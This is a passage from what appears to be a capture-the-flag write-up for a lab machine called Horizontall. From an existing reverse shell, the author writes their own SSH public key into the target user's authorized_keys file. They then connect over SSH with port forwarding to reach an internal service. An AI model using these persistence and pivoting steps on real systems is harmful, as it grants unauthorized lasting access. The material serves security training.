 This generated two files (SSH key pair):
1. **`key`** (which we will use with ssh -i), and;
2. **`key.pub`** (which we will copy to contents of into the 'authorized_keys' file on the target).

We can copy the contents of the `key.pub` file and return to the reverse shell we have. We now need to navigate to the home directory of the user we are in control of and create a `.ssh/` directory since one does not already exist.

```zsh
strapi@horizontall:~/myapi$ cd ~ && mkdir .ssh && cd .ssh

cd ~ && mkdir .ssh && cd .ssh
```

Now that we are in the `.ssh/` directory, we can take the copied contents from the `key.pub` file and echo them into a new file called `authorized_keys`. 

```zsh
strapi@horizontall:~/.ssh$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG1wvYwG+QR1uch2fPqaDaRbz6A1DWxVaa7QySQhNGZR 0x3ds@kali' > authorized_keys

<z6A1DWxVaa7QySQhNGZR 0x3ds@kali' > authorized_keys
```


We can now return to our local machine use the `key` file from the SSH key pair to connect to the target host via SSH as well as port forward TCP/8000

```zsh
0x3ds@kali $ ssh -L 8000:127.0.0.1:8000 strapi@10.129.235.221 -i key

Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-154-generic x86_64)
<SNIP>
```

Now that we have successfully port forwarded the TCP Port 8000 to our local machine, we can attempt to access it by opening our browser and navigating to `127.0.0.1:8000`
